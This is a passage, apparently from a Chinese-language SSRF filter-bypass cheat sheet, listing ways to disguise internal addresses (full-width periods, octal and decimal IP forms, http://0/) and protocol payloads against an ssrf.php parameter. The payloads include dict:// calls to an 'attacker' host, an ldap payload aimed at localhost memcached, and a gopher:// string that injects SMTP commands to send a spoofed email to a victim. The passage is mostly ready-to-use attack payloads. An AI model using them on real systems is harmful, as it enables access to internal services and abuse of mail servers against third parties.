 ###### 9、利用句号

```
127。0。0。1  >>>  127.0.0.1
```

###### 10、利用进制转换

```
可以是十六进制，八进制等。
115.239.210.26  >>>  16373751032
首先把这四段数字给分别转成16进制，结果：73 ef d2 1a
然后把 73efd21a 这十六进制一起转换成8进制
记得访问的时候加0表示使用八进制(可以是一个0也可以是多个0 跟XSS中多加几个0来绕过过滤一样)，十六进制加0x
```

```
http://127.0.0.1  >>>  http://0177.0.0.1/
```

```
http://127.0.0.1  >>>  http://2130706433/
```

```
http://192.168.0.1  >>>  http://3232235521/
http://192.168.1.1  >>>  http://3232235777/
```

###### 11、利用特殊地址

```
http://0/
```

###### 12、利用协议

```
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

###### 13、使用组合

各种绕过进行自由组合即可
